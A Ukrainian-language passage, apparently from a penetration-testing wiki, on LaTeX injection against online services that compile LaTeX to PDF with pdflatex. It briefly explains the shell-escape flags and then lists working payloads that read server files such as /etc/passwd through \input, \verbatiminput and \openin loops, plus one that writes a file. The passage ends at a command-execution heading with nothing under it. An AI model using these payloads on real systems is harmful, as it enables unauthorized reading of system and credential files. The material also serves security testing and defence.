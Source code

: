 Зазвичай сервери, які можна знайти в інтернеті, що **перетворюють LaTeX код на PDF**, використовують **`pdflatex`**.\
Ця програма використовує 3 основні атрибути для (не)дозволу виконання команд:

- **`--no-shell-escape`**: **Вимкнути** конструкцію `\write18{command}`, навіть якщо вона увімкнена в файлі texmf.cnf.
- **`--shell-restricted`**: Те ж саме, що і `--shell-escape`, але **обмежено** 'безпечним' набором **попередньо визначених** \*\*команд (\*\*На Ubuntu 16.04 список знаходиться в `/usr/share/texmf/web2c/texmf.cnf`).
- **`--shell-escape`**: **Увімкнути** конструкцію `\write18{command}`. Команда може бути будь-якою командою оболонки. Ця конструкція зазвичай заборонена з міркувань безпеки.

Однак є й інші способи виконання команд, тому, щоб уникнути RCE, дуже важливо використовувати `--shell-restricted`.

### Read file <a href="#read-file" id="read-file"></a>

Вам може знадобитися налаштувати ін'єкцію з обгортками, такими як \[ або $.
```bash
\input{/etc/passwd}
\include{password} # load .tex file
\lstinputlisting{/usr/share/texmf/web2c/texmf.cnf}
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```
#### Прочитати файл з одного рядка
```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```
#### Читання файлу з кількома рядками
```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
\read\file to\fileline
\text{\fileline}
\repeat
\closein\file
```
### Написати файл <a href="#write-file" id="write-file"></a>
```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```
### Виконання команд <a href="#command-execution" id="command-execution"></a>
